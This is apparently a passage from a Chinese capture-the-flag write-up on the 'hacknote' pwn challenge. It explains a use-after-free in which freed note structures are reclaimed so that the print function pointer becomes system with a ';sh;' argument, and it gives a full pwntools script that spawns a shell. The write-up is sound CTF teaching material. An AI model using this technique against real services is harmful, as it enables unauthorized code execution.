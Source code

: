 ### 调试



先申请l两个再释放两个：

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605082283958-8a6b6ec4-6e7a-49f3-ba0c-20212e4d4f17.png)

可以发现两个结构体指针串在了一起，那么申请size控制一样即可改变结构体指针了

将其改为system地址，参数布置为'sh'之后调用print即可获取shell

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605082483526-c7987609-a16e-4408-bed0-e03f102944ab.png)

### 脚本

```python
from pwn import *
context.log_level='debug'
p = process('./hacknote')

def launch_gdb():
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c'] 
    gdb.attach(proc.pidof(p)[0]) 

def addnote(size, content):
    p.recvuntil(":")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(size))
    p.recvuntil(":")
    p.sendline(content)


def delnote(idx):
    p.recvuntil(":")
    p.sendline("2")
    p.recvuntil(":")
    p.sendline(str(idx))


def printnote(idx):
    p.recvuntil(":")
    p.sendline("3")
    p.recvuntil(":")
    p.sendline(str(idx))

system=0x08048506
launch_gdb()
addnote(0x30,'aaa')#0
addnote(0x30,'bbb')#1

delnote(0)
delnote(1)

addnote(0x8,p32(system)+';sh;')
printnote(0)

p.interactive()
```
